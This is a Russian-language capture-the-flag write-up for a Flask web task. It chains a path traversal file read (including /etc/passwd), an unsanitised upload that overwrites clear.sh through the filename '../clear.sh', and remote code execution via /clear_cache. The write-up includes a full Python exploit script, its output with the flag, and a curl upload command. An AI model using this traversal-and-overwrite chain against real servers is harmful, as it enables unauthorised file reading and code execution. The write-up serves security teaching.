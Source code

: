 # Хитрый краб чайке не товарищ

## Исследование

После деплоя таска мы получаем почти чистую страничку. На ней указан только странный файл `flag.drawio`. Это формат файла онлайн конструктора диаграмм draw.io и внутри только зачётный мем с жабой.

Помимо этого вы могли заметить, что в URL находится замечательный небезопасный формат отображения файлов:
```
http://127.0.0.1:7509/load?file=./
```

Что позволяет нам предположить, что страничка рендерит содержимое не какого-то абстрактого хранилища, а файлы прямо с файловой системы.

Подтвердим эту теорию, попытавшись открыть файл `/etc/passwd`: `http://127.0.0.1:7509/load?file=../../../../etc/passwd`. При выполнении этого запроса в ваше распоряжение поступит passwd, а это означает, что у нас тут LFR (Local File Read) через path traversal.

Пробуем читать родительскую директорию через `http://127.0.0.1:7509/load?file=..` и видим следующую структуру:
```
./clear.sh
./uploads/
./static/
./templates/
./main.py
```

В `main.py` лежит код сервера и, после его анализа, можно подметить важные детали:

1) Флаг нигде не выводится, но он хранится в переменной окружения `FLAG`:
    ```
    flag = r'CTF{EXAMPLE}' if 'FLAG' not in os.environ else os.environ['FLAG'].replace('"','')
    ```
2) У нас есть ручка `http://127.0.0.1:7509/upload`, которая позволяет загружать файлы на сервер. Стоит заметить, что она это делает небезопасно - нет сантизации имени файла (для Flask - это функция `secure_filename()`). Это позволяет нам загружать файлы на систему в любое место, т.е уязвимость Local File Inclusion.
3) У нас ручка `http://127.0.0.1:7509/clear_cache`, которая выполняет скрипт `clear.sh`.

## Эксплуатация

У нас каре - уязвимости path traversal, LFR, LFI и RCE. Путь эксплуатации следующий:

1) Загружаем файл, который подменит `clear.sh`. Т.к. имя скрипта захардкожено - мы должны оставить его как есть. Но никакой проверки целостности у нас нет, поэтому внутрь скрипта мы можем положить код, который делает что угодно. Поэтому запомним, что имя загружаемого файла должно быть `../clear.sh`.
2) В скрипт нужно положить код, который куда-то выведет флаг из переменной окружения. Тут делаем просто:
   ```
    #!/bin/sh
    printenv FLAG
   ```
3) Теперь этот скрипт необходимо доставить - для этого надо сформировать POST-запрос на `/upload` с правильным именем файлы `../clear.sh` и содержимым, выводящим флаг в удобное для нас место. Сразу в скрипте дернем `/clear_cache` чтобы получить флаг. Вот такой код это делает:
   ```
    #!/usr/bin/env python

    import requests
    import sys

    if len(sys.argv) != 2:
        print("Use: {} <address>".format(sys.argv[0]))
        sys.exit()
        
    server = sys.argv[1].strip().replace("http://", "").split("/")[0]

    filename = "../clear.sh"
    filecontent = \
    '''
    #!/bin/sh
    printenv FLAG
    '''

    req = requests.post("http://{}/upload".format(server), files={ 'file': (filename, filecontent)} )
    print("[!] POST = ", req.status_code)
    flag = requests.get("http://{}/clear_cache".format(server))
    print(flag.text)

   ```

   ```
    -> $ python3 sploit.py 127.0.0.1:7509
    [!] POST =  200
    "crab{lfi_lfr_path_traversal_the_classic_trio_*}"
   ```

    Или можно для загрузки `clear.sh` обойтись без питона и заюзать curl:
    ```
        curl http://<address>/upload --form file='@clear.sh;filename=../clear.sh' -X POST
    ```

    А потом просто в браузере дёрнуть `/clear_cache`